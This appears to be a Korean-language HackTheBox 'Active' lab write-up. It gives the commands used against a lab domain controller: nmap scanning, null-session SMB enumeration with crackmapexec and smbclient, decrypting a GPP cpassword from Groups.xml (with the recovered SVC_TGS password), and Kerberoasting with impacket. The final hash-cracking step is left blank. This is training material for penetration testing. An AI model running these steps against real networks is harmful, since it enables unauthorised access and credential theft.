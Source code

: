 ```yaml
---
layout: post
title: HackTheBox Active
subtitle: Acitive Directory 101 Active Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - OSCP
  - AD
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Active/8055314e6eefbca8ad4a0d558519c82c_MD5.jpeg)
crackmapexec enum 검색
smbclient 접속 -> get filename (정책포함 총2개)
passwordcrack (GPP)
해당 계정으로 smb 접근후 플래그 취득
커버로스팅 시도
어드민비번 13100 해쉬캣
smb 

## Target - 10.129.157.36
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.157.36 -oN Active_allport
```
![](/assets/images/posts/2025-03-04-Active/dfa394a533f243c0477ade6179f61f1a_MD5.jpeg)
### SMB Enum (No Auth)
```bash
# 비로그인으로 공유 폴더 권한 보기
crackmapexec smb 10.129.157.36 -u '' -p '' --shares

# Replication 재귀로 다 검색
crackmapexec smb 10.129.157.36 -u '' -p '' --spider Replication --regex .

smbclient //10.129.157.36/Replication
cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
get Groups.xml
```

![](/assets/images/posts/2025-03-04-Active/524e9fb03a7a4ff6798850d2e3a43c27_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/c3a8ad49223654f2cc332332957dfad1_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Active/504f36a387817853d0ccbd67b19e9963_MD5.jpeg)

### Password Crack [Group Policy Preferences]
> What's GPP : 그룹 정책을 통해 도메인에 연결된 머신을 구성할 수 있으며 각 머신들은 DC에 주기적으로 연결(로그인)하여 정책을 동기화 한다. GPP의 기능 중 로컬 관리자 계정에 대한 암호를 설정하는 기능이 Groups.xml 파일의 cpassword 필드를 구성하는데, 이 부분이 공격 당하는 것이다.
   
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![](/assets/images/posts/2025-03-04-Active/c211b63404c6e1dd891c7d23ee15387c_MD5.jpeg)

### SMB Enum (Auth)
```bash
smbclient //10.129.157.36/Users -U SVC_TGS --password=GPPstillStandingStrong2k18
cd SVC_TGS\Desktop\
get user.txt
```
![](/assets/images/posts/2025-03-04-Active/9901ddabe40586df2182bb843283cea2_MD5.jpeg)

### Kerber Roasting
```bash
sudo impacket-GetUserSPNs -request -dc-ip 10.129.157.36 active.htb/SVC_TGS
```
![](assets/images/posts/2025-03-04-Active/f505e174d4732184c33027531a5aa061_MD5.jpeg)

### Hash Crack
```bash

```

## End
![](/assets/images/posts/2025-03-04-Active/de95368feb71382f1c35a682dc077a0b_MD5.jpeg)